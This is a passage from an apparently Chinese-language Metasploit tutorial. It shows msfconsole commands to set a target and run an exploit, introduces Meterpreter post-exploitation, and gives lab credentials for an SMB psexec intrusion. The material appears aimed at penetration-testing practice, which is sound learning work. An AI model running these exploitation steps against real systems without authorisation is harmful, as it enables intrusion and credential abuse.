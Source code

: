 
```bash
set TARGET 0 
show options 
```

![](https://github.com/owl234/Awesome-SRC-experience/blob/main/img/1_IlGr9XQ332u2YgClrRkU6w.webp)

```bash
set RHOSTS IP_ADDRESS_YOU_WANT_TO_EXPLOIT
exploit
```

### 后渗透案例

Meterpreter提供了多个重要的后渗透工具。此外，你还可以使用`load` 命令加载其他的工具。例如，加载整个Python语言。一旦使用`load` 命令加载了任何其他工具，你就能在帮助菜单中看到新的选项。

以下问题将帮助你更好地理解如何在漏洞利用后使用Meterpreter。

假设你可以使用以下的凭据来模拟通过SMB（服务器消息模块）进行初始的入侵。（使用exploit/windows/smb/psexec）

```json
Username:ballen
Password:Password1
```

#### 获取计算机信息
